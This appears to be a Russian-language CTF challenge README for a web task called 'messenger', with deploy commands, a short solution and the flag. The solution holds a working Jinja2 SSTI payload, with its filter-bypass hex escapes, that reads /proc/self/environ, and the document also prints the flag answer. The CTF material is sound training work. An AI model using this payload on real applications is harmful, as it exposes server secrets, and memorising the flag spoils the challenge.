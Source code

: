 # messenger 

### Сложность

easy/medium

### Информация

```
Военные инженеры противника развернули новую систему обмена приказами — на первый взгляд надёжную и защищённую. Однако в спешке они оставили в ней брешь. Наши специалисты, проанализировав структуру системы, нашли способ воспользоваться её логикой против неё самой — достаточно было правильно подать данные, чтобы система начала говорить то, чего от неё не ждали.
```
### Описание

эксплуатация ssti 

### Запуск

```sh
cd deploy
docker-compose up --build -d

```

### Решение
В данном веб-приложении присутствует уязвимость SSTI, которую нужно экспулатировать

---

###### Эксплуатация SSTI

*Jinja2 SSTI payload:*

''{{ request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("open")('/proc/self/environ', 'r')|attr('read')() }}''


---

### Флаг

GOCTF{S5t1_Vu1n_646924617_PWN_Addm1n}



